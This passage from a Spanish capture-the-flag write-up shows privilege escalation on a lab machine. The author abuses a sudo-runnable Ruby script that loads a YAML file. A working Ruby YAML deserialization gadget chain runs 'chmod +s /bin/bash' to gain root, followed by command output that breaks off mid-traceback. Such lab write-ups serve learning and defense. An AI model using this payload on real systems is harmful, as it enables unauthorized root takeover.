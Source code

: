 De aquí ya podemos saber por dónde va la cosa, podemos ejecutar como *root* ese script de ruby, el cual lee un fichero llamado "dependencies.yml"

Por tanto, vamos a buscar en Google como ejecutar un RCE mediante yaml:  
<https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/>

Generamos un fichero llamado "dependencies.yml" con el siguiente código, donde vamos a darle permiso SUID a bash y podernos convertir en root:

~~~~
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod +s /bin/bash
         method_id: :resolve
~~~~

Solo falta ejecutarlo, y posteriormente ejecutar bash con privilegios:

~~~~
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
Traceback (most recent call last):
  33: from /opt/update_dependencies.rb:17:in `<main>'
  32: from /opt/update_dependencies.rb:10:in `list_from_file'
  31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
  30: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
  29: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
  28: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
  27: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
  26: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:313:in `visit_Psych_Nodes_Document'
  25: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
  24: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
  23: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
  22: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:141:in `visit_Psych_Nodes_Sequence'
  21: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `register_empty'
  20: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `each'
  19: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `block in register_empty'
  18: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
  17: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
  16: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
  15: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:208:in `visit_Psych_Nodes_Mapping'
  14: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:394:in `revive'
  13: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:402:in `init_with'
  12: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:218:in `init_with'
  11: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:214:in `yaml_initialize'
  10: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:299:in `fix_syck_default_key_in_requirements'
  9: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_reader.rb:59:in `each'
  8: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_header.rb:101:in `from'
  7: from /usr/lib/ruby/2.7.0/net/protocol.rb:152:in `read'
~~~~